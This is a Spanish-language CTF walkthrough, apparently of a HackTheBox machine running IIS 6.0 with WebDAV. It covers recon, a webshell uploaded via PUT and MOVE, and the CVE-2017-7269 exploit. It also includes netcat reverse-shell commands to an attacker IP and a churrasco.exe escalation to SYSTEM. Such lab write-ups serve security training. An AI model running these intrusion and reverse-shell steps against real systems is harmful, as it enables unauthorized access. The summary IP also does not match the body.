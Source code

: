## Summary

Tags: #Windows #HTTP #IIS #WebDav #ReverShell #BufferOverflow #RCE #JuicyPotato #Churrasco #Server2003 #SearchSploit 

- IP -> 10.10.10.130
- Ports -> TCP (80), UDP (idk)
- OS ->  Windows IIS
- Services & Applications
    - 80 -> 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p80 ❮Target IP❯ -oN targeted
```

```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

	#  -p80 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  -oN WebScan = Exporta el output a un fichero en formato nmap con nombre “WebScan”
```
Pero no encontramos nada.

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

# Encontramos 
	# Microsoft-ISS/6.0
```

En la captura de Nmap además de encontrar que el puerto 80 esta abierto, podemos ver que nos sale los métodos permitidos.
```bash 
# Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH... 
# Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND...

	# PUT = Subir un archivo al servidor 
	# MOVE = 'Mover' el archivo o cambiarle de extension

# Type WebDav
```

Como vemos que hay un WebDav podemos usar la siguiente herramienta para testear que tipo de archivos podemos subir al servidor. Lo que hace la herramienta es que subirá todo tipo de archivos y nos reportara cuales si logro subir. 
```bash 
❯ davtest -url http://10.10.10.15 
```

* Para un **IIS** una extensión critica es la de **asp o aspx** 

La herramienta nos reporta que no podemos subir la extensión .aspx. Por lo que subiremos un archivo malicioso con otro tipo de extensión que sea permitida, después con el archivo subido, cambiaremos su extensión con el método MOVE a la extensión de .aspx.

Buscaremos la Webshell de Windows para que nos la interprete IIS y así poder ejecutar comandos.
```bash 
❯ locate cmdasp.apsx    # Buscaremos el archivo en nuestra maquina de atacante 
```

```bash 
❯ curl -s -X PUT http://10.10.10.15/cmd.txt -d @cmdasp.aspx

	# d = Subir una data que es indicada con el @ y sera el archivo de la cdm
```

Le cambiamos la extensión al archivo que hemos subido
```bash 
❯ curl -s -X MOVE http://10.10.10.15/cmd.txt -H "Destination:http://10.10.10.15/cmd.aspx"
```

Ahora en la Web, al final de la url le colocamos el cmd.aspx y así podremos obtener la Webshell.

Como tenemos ejecución remota de comandos. Haremos una ReverShell a nuestra IP y al puerto 443. Pero primero buscamos el nc.exe para Windows en nuestra maquina de atacante. 
```bash 
❯ locate nc.exe
```

Compartimos el archivo a nivel de red para Windows, para después ejecutarlo desde el recurso compartido y el servidor de la maquina victima
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

Ahora en la consola de la web hacemos lo siguiente:
```bash 
\\10.10.14.11\\smbFolder\\nc.exe -e cmd 10.10.14.11 443

	# e = Ejecutamos el Netcat con una cmd, que nos la enviaremos a nuestro equipo por el puerto 443
```

Antes de ejecutar el comando en la web, nos ponemos en escucha por el puerto 443 
```bash 
❯ rlwrap nc -nlvp 443
```

### Segunda forma de intrusión 

Otra forma de hacer la intrusión es por medio del Buffer Overflow
```bash
❯ searchsploit IIS 6.0                        # Para buscar un exploit
```

```bash 
❯ searchsploit -m 41738.py                    # Para descargarnos el exploit .py que nos ayudara a hacer el Buffer Overflow para el IIS 6.0

	# m = move


# O podemos clonarnos el siguiente directorio con un exploit mejor
❯ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```
Al momento de mirar el contenido del exploit, podemos observar que usa el método **PROPFIND** y este método si esta disponible en el servidor. 

Ejecutamos el exploit de la siguiente manera:
```python 
❯ python2 iis6.py <IP Victima> 80 <IP Atacante> 443

	# ip = IP de la maquina victima 
	# 80 = Puerto victima 
	# ip A = Ip de la maquina de atacante
	# 443 = Puerto a abrir de la maquina de atacante  
```

Antes de ejecutar el comando en la web, nos ponemos en escucha por el puerto 443 
```bash 
❯ rlwrap nc -nlvp 443
```

## User

* Ahora nos hemos convertido en NT authority\\network service 


* Ahora buscaremos la forma de ser NT Authority\\System

```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetImpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato, este es para servers del 2003
```

Nos descargamos el de la siguiente pagina:
* [Juicy-Potato-Server-2003](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

Descargamos el archivo de churracco.exe y lo compartimos a la maquina victima por un servidor smb. 
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

En la consola de Windows para transferirnos el archivo, primero debemos de ir al dir **Temp** y después colocamos el siguiente comando. 
```python
❯ copy \\10.10.14.11\\smbFolder\\churrasco.exe churrasco.exe    # Nos copiamos un archivo .exe desde un recurso compartido SMB que se encuentra en nuestra maquina de atacante

	# IP = IP de atacante
	# smbFolder = Nombre del folder del recurso compartido
	# File.exe = Nombre del archivo .exe a copiar de la maquina de atacante
	# File.exe = Nombre del archivo .exe en el cual se depositara el archivo copiado
```

Ejecutamos el churrasco de la siguiente manera
```bash 
❯ churrasco.exe "\\10.10.14.11\\smbFolder\\nc.exe -e cmd 10.10.14.11 443"           # Al momento de ejecutar el churrasco debemos de colocar el comandos a ejecutar 
```

Pero antes compartirnos el Netcat a nivel de red para Windows, para después ejecutarlo desde el recurso compartido y el servidor de la maquina victima
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

Nos ponemos en escucha 
```bash 
❯ rlwrap nc -nlvp 443
```

## Root

Ahora somos NT Authority\\System
Buscamos la primer flag del usuario user.txt en Lakis, en donde antes no nos podíamos meter y la segunda flag en Administrator

